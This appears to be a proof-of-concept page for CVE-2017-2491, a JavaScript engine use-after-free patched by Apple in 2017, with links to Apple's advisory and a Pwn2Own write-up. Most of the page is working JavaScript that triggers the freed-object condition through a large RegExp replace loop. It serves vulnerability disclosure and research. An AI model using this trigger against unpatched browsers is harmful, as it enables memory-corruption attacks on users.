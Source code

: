 # CVE-2017-2491

- Fix: Mar 2017
- Credit: Apple

## PoC

PoC from Samuel Groß, and Niklas Baumstark

```javascript
function i_want_to_break_free() {
    var n = 0x40000;
    var m = 10;
    var regex = new RegExp("(ab)".repeat(n), "g"); // g flag to trigger the vulnerable path
    var part = "ab".repeat(n); // matches have to be at least size 2 to prevent interning
    var s = (part + "|").repeat(m);
    while (true) {
        var cnt = 0;
        var ary = [];
        s.replace(regex, function() {
            for (var i = 1; i < arguments.length-2; ++i) {
                if (typeof arguments[i] !== 'string') {
                    i_am_free = arguments[i];
                    throw "success";
                }
                ary[cnt++] = arguments[i];  // root everything to force GC
            }
            return "x";
        });
    }
}
try { i_want_to_break_free(); } catch (e) { }
console.log(typeof(i_am_free));  // will print "object"
```

## Reference

- [Apple](https://support.apple.com/en-us/HT207600)
- [Pwn2Own Write up](https://phoenhex.re/2017-05-04/pwn2own17-cachedcall-uaf)
